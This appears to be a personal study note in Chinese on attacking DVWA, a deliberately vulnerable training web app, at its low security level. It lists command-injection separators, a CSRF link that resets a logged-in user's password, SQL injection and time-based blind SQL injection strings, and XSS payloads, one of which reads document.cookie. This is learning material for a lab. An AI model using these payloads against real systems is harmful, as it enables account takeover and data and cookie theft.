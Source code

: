 # DVWA
## LOW
### Command injection
常見的指令:
1.;能夠直接執行第二個命令
2.&& 第一個指令成功後執行第二個
3.|| 第一個指令失敗後執行第二個
![[Pasted image 20220629200154.png]]
### CSRF
使用方式：
```
http://192.168.0.20/vulnerabilities/csrf/?password_new=asd&password_conf=asd&Change=Change#
```
此連結會將已登入中的帳號的密碼修改為'asd'
![[Pasted image 20220629201655.png]]
### File Inclusion
使用方式：
從路由中瀏覽包含在網頁中的檔案
！在DVWA中測試失敗可能是虛擬機問題
### SQL Injection
使用方式：
```
' or '1'='1
```
![[Pasted image 20220629205147.png]]
### SQL Injection (Blind)
使用方式：
```
1' and sleep(5)#
```
![[Pasted image 20220629205540.png]]
### XSS reflected
使用方法：
```
<script>alert('NML')</script>
```
![[Pasted image 20220629213830.png]]
### XSS stored
使用方法：
```
<script>alert(document.cookie)</script>
```
![[Pasted image 20220629214051.png]]